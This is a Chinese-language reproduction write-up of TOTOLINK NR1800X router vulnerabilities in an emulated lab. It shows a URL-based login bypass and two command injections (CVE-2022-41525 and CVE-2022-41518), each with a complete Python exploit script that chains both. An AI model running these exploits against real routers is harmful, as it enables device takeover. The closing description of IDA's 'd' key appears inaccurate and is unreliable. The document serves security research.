






# NR1800X

下载链接：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/225/ids/36.html
版本：NR1800X_Firmware	V9.1.0u.6279_B20210910

# 解压
```
binwalk -Me NR1800X_V9.1.0u.6279_B20210910.rar 
```

# qemu_system 模拟
```
# 0、经过收集信息后可知，该固件的架构为mipsel
# 1、配置ubuntu网卡：
$ sudo tunctl -t tap0
$ sudo ifconfig tap0 192.168.0.1/24 up
# 2、启动qemu-system：
$  sudo qemu-system-mipsel -M malta -kernel vmlinux-3.2.0-4-4kc-malta -hda debian_wheezy_mipsel_standard.qcow2 -append "root=/dev/sda1 console=tty0" -nographic -net nic -net tap,ifname=tap0,script=no,downscript=no

# 3、scp -r ./squashfs-root/   root@192.168.0.2:/tmp/
# 4、挂载：mount -o bind /dev ./squashfs-root/dev && mount -t proc /proc ./squashfs-root/proc
# 5. chroot ./squashfs-root sh
```


需要配置文件  -f参数


缺少文件/var/run/lighttpd,创建一个文件夹
```
mkdir -p /var/run
```


模拟成功

---
# 未授权登录
登陆时抓包


重定向到http://192.168.0.2/formLoginAuth.htm?authCode=0&userName=&goURL=login.html&action=login


既然是提交给cstecgi.cgi后，重定向到http://192.168.0.2/formLoginAuth.htm?authCode=0&userName=&goURL=login.html&action=login
那我们在cstecgi.cgi中，找formLoginAuth.htm


```
int __fastcall check_passwd(int a1)
  ........................
  ........................
  
  v6 = (const char *)websGetVar(v38, "username", "");//从前端读取name passwd
  v7 = websGetVar(v38, "password", "");        
  v8 = (_BYTE *)websGetVar(v38, "http_host", "");
  v9 = websGetVar(v38, "flag", &word_4370EC);
  
    ........................
  ........................

  v14 = nvram_safe_get("http_username");    //读入密码账号
  strcpy(v30, v14);
  v15 = nvram_safe_get("http_passwd");
  
  ........................
........................

   if ( !strcmp(v6, v30) && !strcmp(v35, v32)    // 账号密码正确
  {
    .........................
    ........................
     if ( !strcmp(v9, "ie8") )
    {
      strcpy(v23, "wan_ie.html");        //v23是goURL 
    }
    else if ( atoi(v9) == 1 )
    {
      if ( v12 )
        strcpy(v23, "phone/wizard.html");
      else
        strcpy(v23, "phone/home.html");
    }
    else if ( v12 )
    {
      strcpy(v23, "wizard.html");
    }
    else
    {
      strcpy(v23, "home.html");    
    }
    nvram_
    v18 = 1;           //authCode
  }
    
  如果我们不传入flag，默认走login.html  
  
    .........................
    ........................
    .........................
    ........................

    else                                          // 不传入flag，走这里
  {
    snprintf(
      &v24[v19],
      4096 - v19,
      ",\"redirectURL\":\"http://%s/formLoginAuth.htm?authCode=%d&userName=%s&goURL=%s&action=login\"}",
      v29,
      v18,
      v6,
      v23);
  }
  v20 = cJSON_Parse(v24);                       
  v21 = (const char *)websGetVar(v20, "redirectURL", "");                      //返回htpp包，重定向
  puts("HTTP/1.1 302 Redirect to page");
  puts("Content-type: text/plain");
  puts("Connection: Keep-Alive\nPragma: no-cache\nCache-Control: no-cache");
  printf("Location: %s\n\n", v21);
  printf("protal page");
  return 0;

```


#未授权登录

```
"http://%s/formLoginAuth.htm?authCode=%d&userName=%s&goURL=%s&action=login
按照流程，要成功登录，authCode=1       goURL=home.html


直接访问下面url,可实现越权
http://192.168.0.2/formLoginAuth.htm?authCode=1&userName=admin&goURL=home.html&action=login
```

---

# CVE-2022-41525	
TOTOLINK NR1800X V9.1.0u.6279_B20210910 was discovered to contain a command injection vulnerability via the OpModeCfg function at /cgi-bin/cstecgi.cgi.	

首先分析cstecgi.cgi
搜索OpModeCfg字符串，但这些值都没有引用。


没有多余的信息，那只有自己去寻找漏洞点了。


向上寻找参数a1


```

所以我们要构造四个参数
    "topicurl" : 
	"proto" : 
	"switchOpMode" : 
	"hostName" : 	
```
---

proto
```
 v2 = websGetVar(a1, "proto", "1");
  v3 = atoi(v2);
  if ( !v3 ){
    
  }
   if ( v3 != 3 )
  {
    if ( v3 == 4 )
    {
    }
  }
   else
    {
      if ( v3 != 6 )
      {  
          dosystem()
      }
    }
   
```
要调用dosystem()
我们设置proto=8


---

switchOpMode


根据这里switchOpMode=1

---

topicurl
在主函数中，通过websgetvar获取topicurl.


在ghidra中


猜测可能是setOpModeCfg


发现执行不了
查看ida，
doSystem("echo  '%s'  > /proc/sys/kernel/hostname", v46);
发现应该是因为hostname用'   '包起来了。

那我们试试怎么绕过。






所以这里命令必须加`  `    ,并且要用；把命令隔开，因为在引号中，所以；前要加转义符\


---


NR1800X_command_injection_setOpModeCfg.py
```
# -*- coding: utf-8 -*-
import requests


#cmd
cmd="ls"


# 创建一个会话对象
session = requests.Session()

# 第一次请求：登录并获取cookies
login_url = "http://192.168.0.2/formLoginAuth.htm?authCode=1&userName=admin&goURL=home.html&action=login"
login_headers = {
    "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0",
    "Accept": "application/json, text/javascript, */*; q=0.01",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate, br",
    "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
    "X-Requested-With": "XMLHttpRequest",
    "Origin": "http://192.168.0.2",
    "Connection": "close",
    "Referer": "http://192.168.0.2/formLoginAuth.htm",
    "Accept-Charset": "UTF-8"
}

# 发送登录请求
login_response = session.get(login_url, headers=login_headers)

# 检查是否登录成功并获取cookies
if login_response.status_code == 200:
    # 登录成功，打印 cookies 以验证
    print("Cookies after login:", session.cookies.get_dict())
    
    # 第二次请求：使用获取的 cookies 访问目标 URL
    target_url = "http://192.168.0.2:80/cgi-bin/cstecgi.cgi"
    target_headers = {
        "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0",
        "Accept": "application/json, text/javascript, */*; q=0.01",
        "Accept-Language": "en-US,en;q=0.5",
        "Accept-Encoding": "gzip, deflate, br",
        "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
        "X-Requested-With": "XMLHttpRequest",
        "Origin": "http://192.168.0.2",
        "Connection": "close",
        "Referer": "http://192.168.0.2/basic/index.html?time=1722252290018",
        "Accept-Charset": "UTF-8"
    }
    target_json = {
        "hostName": "'/;"+cmd+"  /;'",
        "proto": "8",
        "switchOpMode": "1",
        "topicurl": "setOpModeCfg"
    }
    
    # 发送目标请求
    target_response = session.post(target_url, headers=target_headers, json=target_json)
    
    # 检查并打印响应
    if target_response.status_code == 200:
        try:
            response_json = target_response.json()
            print("Target response (JSON):", response_json)
        except ValueError:
            print("Target response (text):", target_response.text)
    else:
        print("Failed to access target URL. Status code:", target_response.status_code)
else:
    print("Failed to log in. Status code:", login_response.status_code)


```


# CVE-2022-41518复现

TOTOLINK NR1800X V9.1.0u.6279_B20210910 was discovered to contain a command injection vulnerability via the UploadFirmwareFile function at /cgi-bin/cstecgi.cgi.

查询UploadFirmwareFile

**ida中，本来我们直接查看UploadFirmwareFile的引用为空，但是现在有另一个方法，如下**




**下面这个连续位置，0044C1CC下面是别的字符串了，而最后四位，代表了ida函数名，可能是因为小端序，这里反过来显示函数名，导致ida显示这个变量，并没用被引用过，这里实际就是42D3B4函数。**
## 需要按d ，来进行切换。


进入函数，发现里面果然就符合我们cve看到的exp格式，里面确实有filename，那说明这种寻找调用的方式是正确的。


而这里跳过去，就是对应的引用了UploadFirmwareFile的函数。

这里构造exp很简单，很上面类似
```
    'topicurl' : "UploadFirmwareFile",
	"FileName" : ";ls -al /;"
```

NR1800X_command_injection_UploadFirmwareFile.py
```
# -*- coding: utf-8 -*-
import requests


#cmd
cmd="ls -al"


# 创建一个会话对象
session = requests.Session()

# 第一次请求：登录并获取cookies
login_url = "http://192.168.0.2/formLoginAuth.htm?authCode=1&userName=admin&goURL=home.html&action=login"
login_headers = {
    "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0",
    "Accept": "application/json, text/javascript, */*; q=0.01",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate, br",
    "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
    "X-Requested-With": "XMLHttpRequest",
    "Origin": "http://192.168.0.2",
    "Connection": "close",
    "Referer": "http://192.168.0.2/formLoginAuth.htm",
    "Accept-Charset": "UTF-8"
}

# 发送登录请求
login_response = session.get(login_url, headers=login_headers)

# 检查是否登录成功并获取cookies
if login_response.status_code == 200:
    # 登录成功，打印 cookies 以验证
    print("Cookies after login:", session.cookies.get_dict())
    
    # 第二次请求：使用获取的 cookies 访问目标 URL
    target_url = "http://192.168.0.2:80/cgi-bin/cstecgi.cgi"
    target_headers = {
        "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0",
        "Accept": "application/json, text/javascript, */*; q=0.01",
        "Accept-Language": "en-US,en;q=0.5",
        "Accept-Encoding": "gzip, deflate, br",
        "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
        "X-Requested-With": "XMLHttpRequest",
        "Origin": "http://192.168.0.2",
        "Connection": "close",
        "Referer": "http://192.168.0.2/basic/index.html?time=1722252290018",
        "Accept-Charset": "UTF-8"
    }
    target_json = {
   	 'topicurl' : "UploadFirmwareFile",
	 "FileName" : ";"+cmd+" /;"
    }
    
    # 发送目标请求
    target_response = session.post(target_url, headers=target_headers, json=target_json)
    
    # 检查并打印响应
    if target_response.status_code == 200:
        try:
            response_json = target_response.json()
            print("Target response (JSON):", response_json)
        except ValueError:
            print("Target response (text):", target_response.text)
    else:
        print("Failed to access target URL. Status code:", target_response.status_code)
else:
    print("Failed to log in. Status code:", login_response.status_code)


```


---


---


# ida中快捷键d
在 IDA Pro 中，d 键用于取消全局名称的定义。这可以在反汇编视图中用来删除某个地址或函数的名称。

具体来说：

当你选择一个定义过名字的地址时，按下 d 键会取消该地址的命名，使其恢复为默认的地址表示法（例如 loc_XXXXX 或 sub_XXXXX）。
这个功能在需要清理或重命名地址时特别有用

**在字符串没有被任何引用的时候 ，非常管用****